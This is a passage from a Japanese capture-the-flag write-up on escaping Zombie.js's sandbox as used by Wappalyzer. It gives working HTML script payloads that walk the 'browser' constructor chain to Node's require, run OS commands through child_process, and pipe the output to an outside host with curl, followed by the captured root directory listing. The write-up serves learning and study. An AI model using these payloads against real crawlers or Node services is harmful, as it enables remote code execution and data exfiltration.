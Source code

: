 GitHub で `_allWebSockets` を検索すると [Zombie.js](http://zombie.js.org/) のコードがヒットします。Wappalyzer は [puppeteer か Zombie.js を使っている](https://github.com/AliasIO/wappalyzer/tree/c86cd7e7a83ae111ba3b1bd0442c76bdf846ec2c/src/drivers/npm/browsers)ようですから、このためでしょう。

ただ、`browser` などはアクセス先の Web ページからアクセスできてしまってよいプロパティなのでしょうか。サンドボックスからのエスケープのようなことができたりしないのでしょうか。

検証してみます。`browser` の `constructor` をたどってサンドボックス外の `Function` を取得し、これを使って `process.mainModule.require` を取得できないか試します。

```html
<script>
const require = browser.constructor.constructor('return process')().mainModule.require;
const os = require('os');
const a = os.platform();
__APOLLO_CLIENT__ = {"version": a}
</script>
```

これにアクセスさせると、結果は `linux` になりました。成功したようです。

今度は `child_process` を `require` して OS コマンドが実行できないか試してみましょう。

```html
<script>
const require = browser.constructor.constructor('return process')().mainModule.require;
const child_process = require('child_process');
const a = child_process.execSync('ls -la / | curl https://(省略) -d @-') + '';
__APOLLO_CLIENT__ = {"version": a}
</script>
```

結果は以下のようになりました。

```
total 100
drwxr-xr-x   1 root root  4096 May 29 09:43 .
drwxr-xr-x   1 root root  4096 May 29 09:43 ..
-rwxr-xr-x   1 root root     0 May 29 09:43 .dockerenv
drwxr-xr-x   1 root root  4096 May 29 09:41 bin
drwxr-xr-x   2 root root  4096 May  2 16:39 boot
drwxr-xr-x   5 root root   340 May 29 10:25 dev
drwxr-xr-x   1 root root  4096 May 29 09:43 etc
-r--r-----   1 root gnx     60 May 29 09:18 flag.txt
-rwxr-sr-x   1 root gnx  16808 May 29 09:18 get_flag
drwxr-xr-x   1 root root  4096 May 29 09:42 home
drwxr-xr-x   1 root root  4096 May 15 12:49 lib
drwxr-xr-x   2 root root  4096 May 14 14:50 lib64
drwxr-xr-x   2 root root  4096 May 14 14:50 media
drwxr-xr-x   2 root root  4096 May 14 14:50 mnt
drwxr-xr-x   2 root root  4096 May 14 14:50 opt
dr-xr-xr-x 149 root root     0 May 29 10:25 proc
drwx------   1 root root  4096 May 29 19:59 root
drwxr-xr-x   1 root root  4096 May 15 12:49 run
drwxr-xr-x   1 root root  4096 May 29 09:41 sbin
drwxr-xr-x   2 root root  4096 May 14 14:50 srv
dr-xr-xr-x  13 root root     0 May 29 10:25 sys
drwxrwxrwt   1 root root  4096 May 30 23:14 tmp
drwxr-xr-x   1 root root  4096 May 14 14:50 usr
drwxr-xr-x   1 root root  4096 May 15 12:41 var
```
